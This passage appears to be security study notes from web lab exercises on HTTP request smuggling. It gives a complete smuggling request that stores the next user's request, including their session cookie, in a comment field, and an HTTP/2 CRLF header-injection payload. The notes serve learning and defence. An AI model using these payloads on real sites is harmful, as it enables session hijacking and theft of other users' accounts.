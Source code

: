 ## Capture User Requests
It is possible to craft a smuggle request which reveals other users' data if done right. The key is to make the user request be appended to the smuggle request, which in return stores this data somewhere the attacker can retrieve it, such as a commenting functionality.

It is noteworthy that the parameter used to store the user data has to appear last in the smuggle request and that the data will only be stored until the delimited (`&`).

```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=xxx&postId=2&name=carlos&comment=
```
which will end up as:
```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=xxx&postId=2&name=carlos&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
... 
```
storing the other user's session cookie as a comment.

The content length of the smuggled request has to be adapted to get the whole information or to not cause a timeout. In the labs, it is recommended to send the smuggling request once and then try to access the comment. If it does not work, repeat those two steps the same way.

## H2.CT
## H2.TE
## H2 CLRF Injection
Even when there is validation on `content-length` or `transfer-encoding`, it can sometimes be circumvented by injecting it into an arbitrary header:
```
Foo: bar\r\nTransfer-Encoding: chunked
```
The front-end system which uses HTTP/2 does not understand that there is a newline character followed by another header and thus just sends everything as is to the back-end. The back-end which runs with HTTP/1 will read this header as two separate ones, creating:
```
Foo: bar
Transfer-Encoding: chunked
```
